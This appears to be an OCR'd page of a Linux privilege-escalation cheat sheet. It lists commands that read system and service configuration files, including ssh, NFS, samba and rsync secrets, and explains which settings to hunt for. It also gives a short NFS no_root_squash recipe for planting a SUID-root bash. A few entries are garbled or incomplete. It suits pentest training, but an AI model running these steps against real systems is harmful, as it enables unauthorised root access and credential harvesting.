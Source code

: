 ```bash
cat /etc/exports                     # NFS server configuration file
cat /etc/lib/nfs/etab
cat /etc/ssh/ssh_config
cat /etc/ssh/sshd_config
cat /etc/syslog.conf                 # Syslog
cat /etc/chttp.conf                  # CoreHTTP Web Server
cat /etc/lighttpd.conf               # Lighttpd
cat /etc/cups/cupsd.conf             # CUPS scheduler (Print Server)
cat /etc/printer.conf                # Printer configuration file for cups
cat /etc/inetd.conf                  # internet service daemon
cat /etc/apache2/apache2.conf        # Apache 2
cat /etc/mysql/mysql.conf            # MySQL
cat /etc/samba/smb.conf              # Samba
cat /etc/openldap/ldap.conf          # OpenLDAP
cat /etc/ldap/ldap.conf
ls /etc/pure-ftpf/conf               # Pure-FTPd
cat /etc/pure-ftpf/pure-ftpf.conf    # Pure-FTPd
cat /etc/httpd/conf/httpd.conf       # Apache HTTP Server
cat /opt/lampp/etc/httpd.conf
ls -aRl /etc/ | awk '$1 ~ /^.*r.*/' # Displays all configuration files.
find /etc \( -name rsyncd.conf -o -name rsyncd.secrets \) # Rsync files
find /etc -name squid.conf -print 2>/dev/null
```

- **/etc/exports**: Contains configurations and permissions of which folders/file systems are exported to remote users.
  -> Search for **no_root_squash**. If present, you are root of the file systems/folders with that setting
  -> Search for **anonuid** and **anonuid**. Those are the uid and gid of the anonymous account mounting the system.
  If it's set to **0**, you will be root.

  ```bash
  # 1. Place a binary in it
  cp /bin/bash /VULNERABLE_SHARE
  # 2. Mount the share
  mount -t nfs SERVER:/VULNERABLE_SHARE /mnt/
  # 3. Get root
  chown root:root bash && chmod u+s bash
  ```

- **/etc/ssh/ssh_config**:

- **/etc/ssh/sshd_config**:
  &rarr; Search for **PermitRootLogin**, if set to **yes**, you can login as root via SSH
  &rarr; Search for **AllowUsers** in order to enumerate the users allowed to connect using SSH
  &rarr; Search for **PasswordAuthentication**: Specifies whether to use password authentication
  - Yes: Requires a password
  - No: Through a certificate
  &rarr; Search for **PreferredAuthentications**: Specifies the order in which the client should try protocol 2 authentication methods.
  PubkeyAuthentication
  &rarr; Search for **GatewayPorts**
